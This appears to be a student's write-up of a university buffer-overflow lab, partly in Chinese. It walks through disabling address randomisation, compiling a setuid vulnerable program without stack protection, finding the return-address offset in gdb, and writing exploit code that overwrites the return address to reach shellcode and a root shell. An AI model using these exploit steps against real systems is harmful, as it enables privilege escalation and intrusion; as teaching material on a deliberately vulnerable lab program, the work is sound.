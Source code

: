## lab 2.3

### overview
The learning objective of this lab is for students to gain the first-hand experience on buffer-overflow vulnerability by putting what they have learned about the vulnerability from class into actions. Buffer overflow is defined as the condition in which a program attempts to write data beyond the boundaries of pre-allocated fixed length buffers. This vulnerability can be utilized by a malicious user to alter the flow control of the program, even execute arbitrary pieces of code. This vulnerability arises due to the mixing of the storage for data (e.g. buffers) and the storage for controls (e.g. return addresses): an overflow in the data part can affect the control flow of the program, because an overflow can change the return address.

In this lab, you will be given a program with a buffer-overflow vulnerability; your task is to develop a scheme to exploit the vulnerability and finally to gain the root privilege. It uses Ubuntu VM created in Lab 2.1. Ubuntu 12.04 is recommended.

### steps

1. 禁用地址空间随机化

   ![image-20220523135502126](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/image-20220523135502126.png)
2. 编译stack,`sudo gcc -o stack -z execstack -fno-stack-protector stack.c`,`chmod 4755 stack`
3. 进入gdb调试stack,使用`disass bof`查看bof函数段的汇编代码
   ![20220528132909](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/20220528132909.png)
4. 可以看到buffer段在距离rbp指针0xc+8=0x14的地址处
5. 使用`break *bof+27`设置断点,查看程序运行到此处时的rax值
   ![20220528133125](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/20220528133125.png)
6. 在exploit.c中填入以下代码以进行缓冲区溢出攻击
   ```c
     /* You need to fill the buffer with appropriate contents
     here */
     strcpy(buffer+0x14,"\xb4\xdc\xff\xff\xff\x7f");
     strcpy(buffer+0x100,code);
   ```
7. 编译exploit.c,并运行stack进行缓冲区溢出攻击,可以观察到攻击成功
   ```bach
       gcc -o exploit exploit.c 
       ./exploit
       ./stack
    ```
   ![20220528132657](https://typora-1309407228.cos.ap-shanghai.myqcloud.com/20220528132657.png)
